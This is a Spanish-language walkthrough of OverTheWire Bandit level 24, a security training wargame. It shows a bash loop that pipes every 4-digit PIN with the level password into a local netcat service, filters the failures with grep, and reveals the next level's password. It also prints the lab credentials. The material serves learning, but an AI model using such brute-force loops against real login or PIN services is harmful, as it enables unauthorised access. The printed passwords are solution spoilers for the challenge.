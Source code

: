 # Bandit
## Objetivo
Un demonio está escuchando en el puerto 30002 y le dará la contraseña de bandit25 si se le proporciona la contraseña de bandit24 y un código PIN numérico secreto de 4 dígitos. No hay forma de recuperar el código PIN, excepto pasando por todas las 10000 combinaciones, lo que se conoce como fuerza bruta.

## Datos de acceso
**Usuario:** bandit24
**Contraseña:** VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar

## Solucion

``` shell
ssh bandit24@bandit.labs.overthewire.org -p2220
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar

bandit24@bandit:~$ nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 6666Timeout. Exiting.

bandit24@bandit:~$ echo {0000..0005}
0000 0001 0002 0003 0004 0005

bandit24@bandit:~$ echo VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar {0000..0005}
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 0000 0001 0002 0003 0004 0005

//creamos distintas secuencias para poder ver cual de estos resibe la contraseña

bandit24@bandit:~$ for i in {0000..0005}; do echo 

//con esto creamos secuencia mediante un for

VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i; done
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 0000
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 0001
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 0002
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 0003
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 0004
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 0005

bandit24@bandit:~$ for i in {0000..9999}; do echo VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i; done | nc localhost 30002 

//intentamos enviarlo al puerto

I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
^C

//podemos filtrar esto con grep -v wrong para que solo muestre el correcto

bandit24@bandit:~$ for i in {0000..9999}; do echo VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i; done | nc localhost 30002 | grep -v Wrong!
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d

Exiting.

p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d

```
## Notas adicionales
Con grep -v Wrong! podemos filtrar los resultados incorrectos en un for.

Tambien con echo {0000..0005} podemos crear secuencias de 4 numeros teniendo rango de 0000 a 0005 (usando el echo {0000..0005}).
## Referencias

## Comandos que puedes necesitar para resolver este nivel
